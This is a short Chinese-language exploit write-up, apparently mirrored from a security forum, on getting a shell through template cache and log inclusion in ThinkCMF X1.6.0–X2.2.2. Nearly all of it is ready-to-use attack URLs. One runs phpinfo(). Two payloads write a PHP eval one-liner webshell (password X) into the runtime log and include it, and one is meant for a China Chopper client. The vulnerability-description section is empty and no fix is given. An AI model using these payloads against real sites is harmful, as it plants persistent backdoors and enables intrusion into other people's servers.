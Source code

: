 # ThinkCMF 缓存Getshell

> 原文：[https://www.zhihuifly.com/t/topic/3137](https://www.zhihuifly.com/t/topic/3137)

# ThinkCMF 缓存Getshell

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF X1.6.0
ThinkCMF X2.1.0
ThinkCMF X2.2.0
ThinkCMF X2.2.1
ThinkCMF X2.2.2

## 三、复现过程

### 常规操作

```
http://www.0-sec.org/index.php?a=display&templateFile=README.md&content=%3C?php%20phpinfo();die(); 
```

![image](img/2f1f9d5122e9caa8dc0b37ab71f04ec9.png)

## 利用缓存文件getshell

由于thinkcmf2.x使用了thinkphp3.x作为开发框架，默认情况下启用了报错日志并且开启了模板缓存，导致可以使用加载一个不存在的模板来将生成一句话的PHP代码写入data/runtime/Logs/Portal目录下的日志文件中，再次包含该日志文件即可在网站根目录下生成一句话木马m.php

日志文件格式为YY_MM_DD.log，如当前日期为2019年12月12日，日志文件为19_12_12.log，完整路径为

```
data/runtime/Logs/Portal/19_12_12.log 
```

**payload 一**

*   首先访问

```
http://www.0-sec.org/?a=display&templateFile=%3C?php%20file_put_contents(%27m.php%27,%27%3C%3fphp+eval($_POST[%22X%22])%3b%3F%3E%27);die();?%3E 
```

*   然后请求

```
http://www.0-sec.org/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log 
```

*   即可在http://www.0-sec.org/根目录生成m.php，密码是X

**payload 二**

*   首先访问

```
http://www.0-sec.org/?a=display&templateFile=%3C%3F%70%68%70%20%65%76%61%6C%28%24%5F%50%4F%53%54%5BX%5D%29%3B%3F%3E 
```

*   然后菜刀链接（密码也是x）

```
http://www.0-sec.org/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log 
```